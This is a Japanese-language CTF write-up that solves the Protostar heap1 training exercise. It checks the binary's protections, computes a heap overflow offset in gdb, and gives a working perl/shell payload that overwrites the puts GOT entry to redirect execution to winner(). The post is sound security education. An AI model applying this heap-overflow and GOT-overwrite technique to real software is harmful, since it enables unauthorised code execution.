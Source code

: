 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/endless/exploit-exercises-protostar-heap1/
  - /blog/2016/01/22/exploit-exercises-protostar-heap1/
date: 2016-01-22T14:29:45+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


# Exploit Exercises Protostar Heap1

## [Protostar Heap1](https://exploit-exercises.com/protostar/heap1/)

``` sh
$ file heap1
heap1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=d8d9ab550fbb79da574639c8d3abdf96594cc21d, not stripped

$ checksec --file heap1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   heap1
```

と`No RELRO`なのでgotへの書き込みが可能である。与えられたコードによると、

``` c
  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
```

と2回書き込みがあるので、1回目でoverflowにより`i2->name`に`printf`のgotのアドレスを書き込み、2回目の書き込みはそのgotに目的の関数`winner`のアドレスを書き込めばよい。
ただし、`printf("and that's a wrap folks!\n");`の呼び出しは最適化により`puts("and that's a wrap folks!");`で置き換わっている[^1]ので、`puts`のgotを使用する。

``` sh
$ ./heap1 foo bar
and that's a wrap folks!

$ gdb heap1
...
# the malloc-ed addresses are 0x804a008, 0x804a018, 0x804a028 and 0x804a038

$ echo $[0x804a028+4 - 0x804a018]
20

$ objdump -d -M intel heap1 | grep -A 1 '<puts@plt>:'
080483cc <puts@plt>:
 80483cc:   ff 25 74 97 04 08       jmp    DWORD PTR ds:0x8049774

$ readelf -s heap1 | grep '\<winner\>'
    55: 08048494    37 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap1 $(perl -e 'print "A"x20, "\x74\x97\x04\x08"') $(echo "\x94\x84\x04\x08")
and we have a winner @ 1453452850
```

<hr>

[^1]: gccであればdefaultの`-O0`でも発生する最適化。`-fno-builtin`で抑制できる。
